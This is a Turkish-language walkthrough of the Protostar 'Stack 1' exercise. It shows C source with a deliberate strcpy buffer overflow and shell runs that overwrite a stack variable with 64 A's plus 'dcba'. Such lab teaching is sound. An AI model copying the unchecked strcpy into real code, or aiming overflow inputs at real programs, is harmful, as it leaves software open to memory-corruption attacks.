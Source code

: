 ## Stack 1

Kaynak kod:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```
Burada amacımız yine ekrana başarı mesajını yazdırmak ancak ufak farklılıklar var. Yine `modified` değişkeni ve buffer dizisi tanımlanmış, ardından argüman sayısı kontrol edilmiş. Eğer argüman sayısı 1 ise argüman vermemişsin diye bizi uyarıyor.(c'de argv[0] programın kendi ismini tutar) Ardından if bloğunda modified değişkeninin değerinin `0x61626364` olup olmadığını kontrol ediyor yani bizim taşma sırasında vereceğimiz değer bu olmalı. Bu değer hex olarak ifade edilmiş, ascii tablosuna bakarsak (man ascii ile bakabilirsiniz) bu değerler `abcd` harlerine karşılık geliyor. Ancak burada hedef makine little-endian olduğu için bunları tersten yazmamız gerekli. [Endianness](https://en.wikipedia.org/wiki/Endianness) 

```bash
user@protostar:/opt/protostar/bin$ ./stack1
stack1: please specify an argument

user@protostar:/opt/protostar/bin$ ./stack1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Try again, you got 0x00000000
user@protostar:/opt/protostar/bin$ ./stack1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
Try again, you got 0x42424242
user@protostar:/opt/protostar/bin$ ./stack1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAdcba
you have correctly got the variable to the right value
```
Argüman vermediğimizde kızdı, ardından 64 tane 'A' verdik ve bize değerin 0 olduğunu söyledi çünkü modified değerini ezemedik. Ardından 64 karakter ve `dcba` stringi ile denediğimizde başarılı bir şekilde değiştirmiş olduk.

